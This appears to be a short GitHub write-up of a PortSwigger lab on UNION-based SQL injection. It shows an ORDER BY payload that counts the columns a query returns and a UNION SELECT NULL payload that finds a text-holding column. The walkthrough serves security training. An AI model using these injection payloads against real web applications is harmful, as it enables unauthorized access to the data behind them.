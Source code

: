 ## Lab Description
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/c1dd1a38-91c6-40bd-94a1-95741b739996)

### Solution

Query made:

`SELECT * FROM someTable WHERE category = '<CATEGORY>'`

  - ORDER BY 4 return an error, means there are 3 columns being queried and retreived by the web application.

`SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 4 --`

![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/59f9c763-ef1d-443c-bbc0-12cd108ad608)

**Determine the column containng text data -**
  
  - We need to use the UNION SELECT payload using 3 NULL values. Try thetring value *SYzz32* in one NULL value to see if it returns that string. If it does , then it means the column contains string data else it is not sting data.

`SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'SYzz32',NULL`

![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/daf680f5-6472-4885-ba7a-31613f1df330)

![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/10151850-33bf-49fa-9cd5-5ed85134a8ba)
